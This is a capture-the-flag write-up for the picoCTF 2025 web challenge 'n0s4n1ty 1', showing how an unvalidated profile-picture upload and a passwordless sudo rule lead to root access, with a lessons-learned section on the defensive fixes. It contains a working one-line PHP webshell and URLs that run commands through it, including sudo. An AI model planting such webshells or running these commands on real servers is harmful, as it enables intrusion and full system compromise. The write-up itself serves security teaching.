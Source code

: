 # 🌀 n0s4n1ty 1 — Writeup

![Challenge Banner](https://github.com/user-attachments/assets/5321772c-d41a-4f64-af76-b55f93a70650)

---

## 📌 Challenge Info
- **Category:** Web Exploitation
- **Difficulty:** Easy
- **Event:** picoCTF 2025

**Description:**  
A developer added profile picture upload functionality, but with flawed implementation. Our mission is to exploit the upload form and grab the hidden flag from `/root`.

---

## 🛠️ Steps to Solve

### 1️⃣ Inspect the Upload Page
We were given a profile upload site. By inspecting the source code (`CTRL + U`), we found that the upload form directly sends files to `upload.php` without any restrictions.

📸 Screenshot:

![Upload Page](https://github.com/user-attachments/assets/d9f2afe6-e980-4164-b960-15af9b73f6a7)

---

### 2️⃣ Confirm No File Restrictions
The code shows **no validation checks** on file type or extension. This means we can upload any file, including `.php` webshells.

```html
<form action="upload.php" method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileToUpload" />
    <button type="submit">Upload Profile</button>
</form>
```

---

### 3️⃣ Upload a PHP Webshell
We created a simple PHP shell:
```php
<?php system($_REQUEST['cmd']); ?>
```
Saved it as `upload.php` and uploaded it successfully.

📸 Screenshot:

![Upload Success](https://github.com/user-attachments/assets/91f3dfee-cbfe-4280-a45c-d8bdcc6d2542)

The site responded with a file path:
```
uploads/upload.php
```

---

### 4️⃣ Execute Commands via Webshell
By visiting:
```
uploads/upload.php?cmd=ls -lah
```
We could run arbitrary commands on the server 🎉

📸 Screenshot:

![Uploaded Path](https://github.com/user-attachments/assets/4ed2888c-4cce-4e84-a893-bf2f8e1534f4)

We tried listing `/root`, but nothing appeared. Then we checked the hint, which suggested running `sudo -l`.

---

### 5️⃣ Privilege Escalation
Running `sudo -l` showed this output:

![Sudo Privileges](https://github.com/user-attachments/assets/45d1db88-ea7b-4bf1-a16a-a3523cb8ba40)

This means the user `www-data` has **full root privileges without a password** (`NOPASSWD: ALL`).

So we can run:
```
uploads/upload.php?cmd=sudo ls -lah /root
```
and gain access to the protected flag!

---

## 🔎 Explanation of the Vulnerability
- The server did not restrict file uploads, allowing arbitrary code execution.
- With a PHP shell, we gained **remote code execution**.
- Due to `sudo` misconfiguration, `www-data` had **full root access** with no password required.

---

## 📝 Lesson Learned
- Always **validate and restrict file uploads** (e.g., only images, MIME checks, rename files).
- Never grant `www-data` or web users unrestricted `sudo` privileges.
- This challenge shows how a simple file upload bug can escalate to **full system compromise**.

---

## 🎯 Flag
```
picoCTF{<redacted_flag_here_for_example>}
```

🌀 Game over — full pwn achieved!
